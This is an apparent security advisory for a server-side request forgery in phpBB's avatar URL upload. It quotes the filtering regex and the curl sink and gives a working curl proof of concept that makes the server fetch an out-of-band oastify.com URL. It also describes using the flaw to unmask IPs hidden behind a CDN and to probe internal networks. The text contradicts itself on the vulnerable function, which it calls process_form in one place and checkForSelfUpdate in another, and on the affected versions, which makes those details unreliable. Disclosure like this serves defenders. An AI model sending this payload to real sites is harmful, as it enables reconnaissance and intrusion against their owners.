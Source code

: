 # SSRF vulnerability in `process_form` Function of `phpbb/avatar/driver/upload.php` File (phpBB)

## 0x01 Affected version

vendor: https://github.com/phpbb/phpbb

version: Versions prior to 3.3.11 are vulnerable.

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `checkForSelfUpdate` function of phpBB 3.3.11 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `avatar_upload_url` parameter. We should note that the vulnerability requires authentication before it can be triggered. The vulnerability is a bypass of the previous patch CVE-2017-1000419.

This vulnerability can lead to various harms, such as the two most common scenarios:

1. If developers use CDN to conceal the real IP of their deployed websites, attackers can exploit this vulnerability to make requests to their own servers, thereby obtaining the real IP. Once the real IP is obtained, attackers can scan the developer's server to discover other potential vulnerabilities.

2. This vulnerability can be used to perform service discovery on both internal and external networks, as well as to retrieve images that are usually restricted to local access. Although in phpBB versions after 3.2.1, developers use regular expressions to restrict users from making requests to specified IPs, limiting access to local image files. However, this defense can be bypassed through DNS pinging[1]. 

The vulnerable code is located in the `process_form()` function in the `phpbb/avatar/driver/upload.php` file. Because the function does not perform sufficient checksumming on the `avatar_upload_url` parameter, the tainted variable into the tainted function `curl_exec` at the file `vendor/guzzlehttp/guzzle/src/Handler/CurlHandler.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `avatar_upload_url` parameter, eventually leading to an SSRF vulnerability.

Code for the location of the tainted inflow

file path: phpbb/avatar/driver/upload.php

```php
			if (!preg_match('#^(http|https|ftp)://(?:(.*?\.)*?[a-z0-9\-]+?\.[a-z]{2,4}|(?:\d{1,3}\.){3,5}\d{1,3}):?([0-9]*?).*?\.('. implode('|', $this->allowed_extensions) . ')$#i', $url) ||
				preg_match('@^(http|https|ftp)://[^/:?#]+:[0-9]+[/:?#]@i', $url) ||
				preg_match('#^(http|https|ftp)://(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])#i', $url) ||
				preg_match('#^(http|https|ftp)://(?:(?:(?:[\dA-F]{1,4}:){6}(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:::(?:[\dA-F]{1,4}:){0,5}(?:[\dA-F]{1,4}(?::[\dA-F]{1,4})?|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:):(?:[\dA-F]{1,4}:){4}(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,2}:(?:[\dA-F]{1,4}:){3}(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,3}:(?:[\dA-F]{1,4}:){2}(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,4}:(?:[\dA-F]{1,4}:)(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,5}:(?:[\dA-F]{1,4}:[\dA-F]{1,4}|(?:(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(?:\d{1,2}|1\d\d|2[0-4]\d|25[0-5])))|(?:(?:[\dA-F]{1,4}:){1,6}:[\dA-F]{1,4})|(?:(?:[\dA-F]{1,4}:){1,7}:)|(?:::))#i', $url))
			{
				$error[] = 'AVATAR_URL_INVALID';
				return false;
			}

			$file = $upload->handle_upload('files.types.remote', $url);
```

file path: vendor/guzzlehttp/guzzle/src/Handler/CurlHandler.php

```php
    public function __invoke(RequestInterface $request, array $options)
    {
        if (isset($options['delay'])) {
            usleep($options['delay'] * 1000);
        }

        $easy = $this->factory->create($request, $options);
        curl_exec($easy->handle);
        $easy->errno = curl_errno($easy->handle);

        return CurlFactory::finish($this, $easy, $this->factory);
    }
```

The input that can cause this SSRF vulnerability is located in the front-end's input box there.

![image-20240310210027448](assets/image-20240310210027448.png)



The following is an example of exploiting the vulnerability:

![image-20240310205936207](assets/image-20240310205936207.png)



PoC:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.147' -H $'Content-Length: 940' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://172.16.119.147' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryREgYWxAV8MyABrhk' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://172.16.119.147/phpBB3310/ucp.php?i=ucp_profile&mode=avatar' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: zh-CN,zh;q=0.9' -H $'Connection: close' \
    -b $'NVSID_9c6f801a_ba1ab2cde29d074c6542684645423000=hhbl4e47rc1fhvmbknbho7h58b; PHPSESSID=hhbl4e47rc1fhvmbknbho7h58b; phpbb3_5grhs_u=2; phpbb3_5grhs_k=qe2ahdbw1bwc61mw; phpbb3_5grhs_sid=bc58556a8c6c46e9155c4f21e9dc0e00' \
    --data-binary $'------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"avatar_driver\"\x0d\x0a\x0d\x0aavatar_driver_upload\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\x0d\x0a\x0d\x0a6144\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"avatar_upload_file\"; filename=\"\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"avatar_upload_url\"\x0d\x0a\x0d\x0ahttp://xabp6p9t4if8803r0gy9wmckdbj37tvi.oastify.com/ssrftest.jpg\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"submit\"\x0d\x0a\x0d\x0aSubmit\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"creation_time\"\x0d\x0a\x0d\x0a1710075132\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk\x0d\x0aContent-Disposition: form-data; name=\"form_token\"\x0d\x0a\x0d\x0ad95e6804f75d37c1777941c73bf6da3ae010d165\x0d\x0a------WebKitFormBoundaryREgYWxAV8MyABrhk--\x0d\x0a' \
    $'http://172.16.119.147/phpBB3310/ucp.php?i=ucp_profile&mode=avatar'
```



## 0x03 Mitigation

 Before sending a request, it's recommended to verify the IP address of the corresponding domain (thus rejecting requests to domains that resolve to 127.0.0.1), or use a allow-list to restrict which domains can be accessed.

## 0x04 Reference

[1] https://github.com/cujanovic/SSRF-Testing/blob/master/README.md

## 0x05 Acknowledgement

z3





